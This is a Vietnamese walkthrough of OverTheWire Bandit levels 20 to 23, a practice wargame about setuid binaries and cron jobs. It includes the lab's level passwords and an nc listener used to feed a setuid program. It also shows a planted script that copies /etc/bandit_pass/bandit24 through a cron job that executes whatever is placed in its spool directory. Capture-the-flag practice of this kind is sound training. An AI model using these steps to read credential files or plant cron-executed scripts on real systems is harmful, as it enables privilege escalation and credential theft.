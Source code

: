 # Level 20-23
` Các level dưới đây sẽ tập trung vào khái niệm *SetUID* và *Cronjob*.`
### Level 20
###### User: *bandit20* ; Password: *VxCazJaVykI6W36BkBU0mJTCM8rR95XT*
###### Trong bài này, có `suconnect` là một file thực thi theo cơ chế setuid, tức là thực thi chương trình theo quyền của người cấp chứ không phải người đang chạy.
###### Chức năng của hàm: tạo kết nối đến localhost mà ta tạo, sau đó đọc dòng text từ kết nối và so sánh với mật khẩu của người dùng level trước. Nếu đúng, sẽ trả về mật khẩu của người dùng level hiện tại.
#### 1. Kiểm tra quyền của file: 
```
bandit20@bandit:~$ ls -la
...
-rwsr-x---  1 bandit21 bandit20 15600 Oct  5 06:19 suconnect
```
##### -> file được sở hữu bởi `bandit21` và được sử dụng bởi 'bandit20', tức là khi chạy `suconnect`, so sánh mật khẩu của `bandit20`, nếu đúng trả về mật khẩu của `bandit21`.
#### 2. Tạo cổng `1234` và đẩy mật khẩu vào:
```
ls 
echo -n 'VxCazJaVykI6W36BkBU0mJTCM8rR95XT' | nc -l -p 1234 &
```
###### &: chạy chương trình dưới dạng background
#### 3. Kết nối `suconnect` qua cổng `1234`:
```
bandit20@bandit:~$ ./suconnect 1234
Read: VxCazJaVykI6W36BkBU0mJTCM8rR95XT
Password matches, sending next password
NvEJF7oVjkddltPSrdKEFOllh9V1IBcq
```
##### Key: *NvEJF7oVjkddltPSrdKEFOllh9V1IBcq*
#
### Level 21
###### user: *bandit21* ; password: *NvEJF7oVjkddltPSrdKEFOllh9V1IBcq*
#### Xem file cronjob trong thư mục: 
```
cd /etc/cron.d
ls -la 
cat cronjob_bandit22
‘@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null’
```
##### -> file cronjob này chạy một file tên cronjob_bandit22.sh trong thư mục /usr/bin/ mỗi phút một lần `* * * * *`
```
cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
##### -> file bash này cấp quyền viết và thực thi (2 & 4) cho một file tạm thời trong thư mục /tmp, sau đó sẽ in mật khẩu của bandit22 vào file đó
```
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
##### key : *WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff*
#
### Level 22
#### Xem file `cronjob_bandit23`
```
cd /etc/cron.d
ls -la cronjob_bandit23
cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
```
##### -> thực thi file cronjob_bandit23.sh mỗi phút một lần
#### Xem file thực thi `cronjob_bandit23.sh`:
```
cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"’
```
##### -> in mật khẩu vào tên một file có tên là I am user bandit22 sau khi được mã hóa md5
#### Chạy thử file:
```
./cronjob_bandit23.sh
Copying passwordfile /etc/bandit_pass/bandit22 to /tmp/8169b67bd894ddbb4412f91573b38db3
```
#### Như vậy để tìm được file có chứa key cho level 23:
```
echo I am user bandit23 | md5sum | cut -d ‘’ -f 1 
8ca319486bfbbc3663ea0fbe81326349
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
###### `cut -d ‘’ -f 1`: loại bỏ các khoảng trống trong kết quả
##### key: *QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G*
#
### Level 23
#### Xem file `cronjob_bandit24` & `cronjob_bandit24.sh`:
```
cd /etc/cron.d
cat cronjob_bandit24
cd /usr/bin 
cat cronjob_bandit24.sh

#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
##### -> lệnh này sẽ thực thi file ở trong /var/spool/$myname/foo với tư cách người dùng hiện tại, sau đó xóa đi. 
###### + Tức là người dùng là bandit24 thì sẽ thực thi các file trong /var/spool/bandit24/foo với quyền của người dùng bandit24
###### + Như vậy ta sẽ lợi dụng lỗ hổng này để tạo một file in ra mật khẩu người dùng bandit24:
#### Tạo file thực thi trong /tmp:
```
mkdir /tmp/hoang
cd /tmp/hoang
nano bandit24pass.sh
```
#### Nội dung file sẽ in mật khẩu của `bandit24` vào file `pass` tự tạo: 
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/hoang/pass
touch /tmp/hoang/pass
```
#### Cấp quyền cho các file và thư mục:
```
chmod 777 -R /tmp/hoang
chmod 777 bandit24pass.sh
chmod 777 pass
```
#### Sau đó, đẩy file `bandit24pass.sh` vào trong thư mục `/var/spool/bandit24/foo` để thực thi được lệnh trong file:
```
cp bandit24pass.sh /var/spool/bandit24/foo
```
###### Đợi 1 phút vì cronjob sẽ thực thi file `cronjob_bandit24.sh` mỗi phút một lần:
```
cat pass
```
##### key: *VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar*

